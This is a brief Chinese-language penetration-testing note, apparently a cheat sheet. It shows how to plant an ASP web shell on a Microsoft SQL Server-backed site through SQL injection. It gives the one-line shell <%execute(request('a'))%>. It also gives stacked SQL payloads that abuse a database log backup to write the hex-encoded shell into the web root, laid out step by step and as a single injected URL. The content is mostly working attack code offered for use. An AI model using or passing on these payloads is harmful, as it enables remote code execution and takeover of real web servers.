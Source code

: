 ```asp
<%execute(request("a"))%>
```

差异备份经常会出错，不稳定

log备份一句话（需burp 转化accis）

```sql
;IF EXISTS(select table_name from information_schema.tables where table_name='test_tmp')drop table test_tmp;alter database mydb set RECOVERY FULL;
; drop table test_tmp;create table test_tmp (a image);backup log mydb to disk ='C:/inetpub/wwwroot/www.demo1.com/asp.bak' with init;insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA);backup log mydb to disk = 'C:/inetpub/wwwroot/www.demo1.com/123.asp'
```

 分布执行：

;drop table test_tmp
;create table test_tmp (a image);
;backup log mydb to disk ='C:/inetpub/wwwroot/www.demo1.com/asp.bak' with init;
;insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA)
;backup log mydb to disk = 'C:/inetpub/wwwroot/www.demo1.com/123.asp'
;drop table test_tmp

一键执行：

```http
http://www.demo1.com/index.aspx?id=1;IF EXISTS(select table_name from information_schema.tables where table_name='test_tmp')drop table test_tmp;create table  test_tmp  (a image);backup log mydb to disk ='C:/inetpub/wwwroot/www.demo1.com/asp.bak' with init;insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA);backup log mydb to disk = 'C:/inetpub/wwwroot/www.demo1.com/123.asp';drop table test_tmp
```

 